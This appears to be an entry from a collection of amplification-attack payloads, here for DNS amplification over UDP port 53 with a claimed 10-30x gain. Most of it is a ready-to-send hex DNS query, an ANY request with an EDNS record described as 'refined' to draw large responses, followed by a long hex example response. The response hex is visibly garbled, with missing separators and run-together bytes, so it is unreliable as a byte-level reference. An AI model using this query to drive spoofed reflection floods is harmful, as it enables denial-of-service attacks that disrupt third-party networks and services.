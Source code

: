 # DNS-Amplification

## Port: 53

## Proto: UDP

## Amplification factor: 10-30x

### Refined payload
From 44 Byte to 500 Byte
<pre>C4\75\01\00\00\01\00\00\00\00\00\01\00\00\FF\00\01\00\00\29\23\28\00\00\00\00\00\00\00\00\00\00\00<pre>

### Example response
<pre>
C4\75\81\8000\01\00\0E\00\00\00\01\00\00\FF\00\01\00\00\0200\01\00\00\23\AF\00\14\01\6C\0C\72\6F\6F\74\2D73\65\72\76\65\72\73\03\6E\65\74\00\00\00\02\0001\00\00\23\AF\00\04\01\6B\C0\1E\00\00\02\00\0100\00\23\AF\00\04\01\67\C0\1E\00\00\02\00\01\0000\23\AF\00\04\01\69\C0\1E\00\00\02\00\01\00\0023\AF\00\04\01\6A\C0\1E\00\00\02\00\01\00\00\23AF\00\04\01\66\C0\1E\00\00\02\00\01\00\0023\AF00\04\01\62\C0\1E\00\00\02\00\01\00\00\23\AF\0004\01\61\C0\1E\00\00\02\00\01\00\00\23\AF\00\0401\68\C0\1E\00\00\02\00\01\00\00\23\AF\00\04\016D\C0\1E\00\00\02\00\01\00\00\23\AF\00\04\01\63C0\1E\00\00\02\00\01\00\00\23\AF\00\04\01\64\C01E\00\00\02\00\01\00\00\23\AF\00\04\01\65\C0\1E00\00\2E\00\01\00\00\23\AF\01\13\00\02\08\00\0007\E9\00\68\54\EA\D0\68\43\B9\40\CF\9C\00\22\5811\A8\0F\4D\30\FF\1C\42\2F\86\56\48\C1\45\C9\2A6D\85\D4\03\EE\CF\17\FE\F5\60\31\5E\84\43\C5\8BBC\4F\8F\3D\5F\08\23\D0\A0\92\7B\75\2C\4F\8D\41A5\A0\94\F1\DC\0F\7E\2B\5E\B3\AB\B7\8C\AB\EC\67AA\9D\14\A2\22\88\EC\95\A1\B8\EB\F8\3C\5D\E1\D875\17\98\62\F3\16\EB\22\95\38\25\90\54\32\5A\DE2C\50\D3\9E\9F\23\4F\B9\B5\9A\24\08\8D\A1\8B\E084\44\4E\68\69\47\2D\7E\F8\18\03\0A\85\81\BB\B187\F5\11\8A\FD\5F\3A\2C\74\1D\56\90\26\E5\FC\9755\E5\88\3D\AA\0F\92\55\12\A1\6B\C0\AB\EE\B0\DBBD\A7\26\A0\31\C5\AA\99\44\38\7B\92\79\3B\A7\10CC\DB\C3\44\60\D1\CA\E1\BC\15\E7\1D\02\4A\A8\423D\E4\A8\28\63\D7\85\AB\E6\98\8E\E0\27\3D\DC\EF70\42\DE\8B\D7\04\AE\8D\3E\77\E6\79\78\7C\AE\F9A9\76\53\66\96\78\CC\BC\25\76\5B\A1\4D\B3\20\D4A\F3\95\7B\80\B6\1F\C6\CD\2D\B9\66\2D\A5\00\0029\04\D0\00\00\00\00\00\00\</pre>
